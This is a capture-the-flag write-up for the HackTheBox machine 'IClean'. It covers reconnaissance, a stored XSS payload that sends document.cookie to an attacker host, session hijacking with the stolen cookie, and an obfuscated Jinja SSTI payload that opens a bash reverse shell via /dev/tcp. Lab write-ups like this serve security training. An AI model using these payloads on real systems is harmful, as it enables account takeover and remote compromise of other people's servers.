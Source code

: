 # IClean Write-up

<img src="https://labs.hackthebox.com/storage/avatars/750ba886c8a87103c69cac0f13f2de70.png" width="200" height="200">

## Nmap

`nmap -sC -sV 10.10.11.12`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
    |_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
    80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Dirsearch 

`python3 dirsearch.py -u http://capiclean.htb/ --exclude-status 403,404,400,401 -o dir`

    Target: http://capiclean.htb/
    
    Starting:                                                                                                                  
    200 -    5KB - /about                                            
    302 -  189B  - /dashboard  ->  /                                 
    200 -    2KB - /login                                            
    302 -  189B  - /logout  ->  /                                    
    200 -    8KB - /services                                         
                                                                                 
    Task Completed                                        

http://capiclean.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/82f197be-44fd-4dbc-a912-8be4e5a407cb)

Open capiclean.htb/quote and intercept the request

![image](https://github.com/zer00d4y/writeups/assets/128820441/b454619e-2b9c-4da4-b734-5bc84c8094bd)

![image](https://github.com/zer00d4y/writeups/assets/128820441/bdaa2334-f3f7-41a4-b5f9-4b1fdc79f708)

## XSS

Payload:

    <img src=x onerror=fetch("http://ATTACK_IP:PORT/"+document.cookie);>

URLencoded payload:

    <img+src%3dx+onerror%3dfetch("http%3a//ATTACK_IP%3aPORT/"%2bdocument.cookie)%3b>&email=test%40test.test

Start python server

Paste our XSS payload in `service` section

![image](https://github.com/zer00d4y/writeups/assets/128820441/13506a92-7321-430a-9be5-b1c4ba8b8b26)

Cookie: 

    eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zh02rQ.FPqIYAKIFgs_W8kHStG34YIeMqo 

Set cookie named `session`

![image](https://github.com/zer00d4y/writeups/assets/128820441/3b5b7da7-da0e-488c-8e34-6200e27d0ce2)

http://capiclean.htb/dashboard

![image](https://github.com/zer00d4y/writeups/assets/128820441/821575d0-15ee-4e34-83b6-9f47180ea515)

## SSTI

![image](https://github.com/zer00d4y/writeups/assets/128820441/fca10c48-e13f-4354-8629-11408567f71d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e8b0a1d4-10a6-44fe-8ad6-7f6e3b20812d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/5ef872b3-d0bd-434c-b1c3-f1db14b45267)

![image](https://github.com/zer00d4y/writeups/assets/128820441/d85cf6b0-25e1-4297-8524-e97700f06d8e)

![image](https://github.com/zer00d4y/writeups/assets/128820441/acf0bbd0-70a8-41e8-a372-1f7a357e579f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/46ffbe82-e5ff-451d-9a9c-4687eec2c3b6)

    {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1'")|attr("read")()}}


